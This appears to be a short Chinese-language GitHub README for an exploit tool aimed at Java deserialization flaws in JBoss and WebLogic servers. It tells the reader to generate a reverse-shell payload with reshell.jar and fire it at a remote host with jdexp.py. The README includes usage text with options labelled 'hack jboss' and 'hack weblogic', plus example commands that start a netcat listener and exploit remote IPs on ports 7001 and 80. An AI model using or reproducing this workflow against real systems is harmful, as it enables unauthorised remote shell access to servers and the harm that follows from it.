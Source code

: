 # JavaDeserialization


用[reshell.jar](https://github.com/hackzx/JavaDeserialization/raw/master/reshell.jar)生成反弹shell的payload，然后[jdexp.py](https://github.com/hackzx/JavaDeserialization/raw/master/jdexp.py)执行。

```
▶ python jdexp.py -h
usage: jdexp.py [-h] [-jboss] [-weblogic] host port payload

……

positional arguments:
  host        remote domain/IP
  port        remote port
  payload     local payload file

optional arguments:
  -h, --help  show this help message and exit
  -jboss      hack jboss
  -weblogic   hack weblogic
```

```
example:

▶ nc -vvlp 888
▶ java -jar reshell.jar [ReverseIP] 888 /tmp/payload
	
▶ python jdexp.py -weblogic [RemoteIP] 7001 /tmp/payload
▶ python jdexp.py -jboss [RemoteIP] 80 /tmp/payload
```

 
